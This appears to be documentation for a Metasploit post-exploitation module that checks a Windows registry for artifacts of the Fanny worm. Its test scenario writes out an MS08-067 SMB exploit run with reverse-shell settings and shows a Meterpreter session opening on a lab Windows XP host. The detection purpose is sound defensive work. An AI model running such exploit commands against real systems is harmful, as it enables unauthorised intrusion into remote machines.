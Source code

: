 ## Vulnerable Application
Fanny or DWE for short. (DWE = DementiaWheel)

Detection module based on the `post/windows/gather/forensics/duqu_check` module. Fanny is a worm that infects windows
machines, via USB (not through Autorun, or at least not only).

In fact, it used exploits later found in StuxNet. It creates creates some Registry artifacts.

This module is intended to detect those artifacts.

#### Supported Environments:
- Windows x86

#### Supported SessionTypes:
- Meterpreter
- Shell

#### Supported OS's:
- Windows XP Pro (SP3)

## Verification Steps

- Start msfconsole
- Open a session on a Windows host (using `exploit/windows/smb/ms08_067_netapi` for example)
- Use `post/windows/gather/forensics/fanny_bmp_check`
- Set the `SESSION` datastore option to the target session
- Run the module

## Options

## Scenarios

### Windows XP SP3
```
msf6 exploit(windows/smb/ms08_067_netapi) > use exploit/windows/smb/ms08_067_netapi
msf6 exploit(windows/smb/ms08_067_netapi) > set LHOST 192.168.122.1
msf6 exploit(windows/smb/ms08_067_netapi) > set RHOST 192.168.122.160
msf6 exploit(windows/smb/ms08_067_netapi) > set LPORT 4444
msf6 exploit(windows/smb/ms08_067_netapi) > run

[*] Started reverse TCP handler on 192.168.122.1:4444 
[*] 192.168.122.160:445 - Automatically detecting the target...
[*] 192.168.122.160:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 192.168.122.160:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 192.168.122.160:445 - Attempting to trigger the vulnerability...
[*] Sending stage (175174 bytes) to 192.168.122.160
[*] Meterpreter session 4 opened (192.168.122.1:4444 -> 192.168.122.160:1043) at 2020-12-22 16:55:02 +0100

meterpreter > run post/windows/gather/forensics/fanny_bmp_check
 
[*] Searching the registry for Fanny.bmp artifacts.
[+] WORKSTATION1: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\MediaResources\acm\ECELP4\Driver found in registry.
[+] WORKSTATION1: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\MediaResources\acm\ECELP4\filter2 found in registry.
[+] WORKSTATION1: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\MediaResources\acm\ECELP4\filter3 found in registry.
[+] WORKSTATION1: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\MediaResources\acm\ECELP4\filter8 found in registry.
[*] WORKSTATION1: 4 result(s) found in registry.
meterpreter >
```
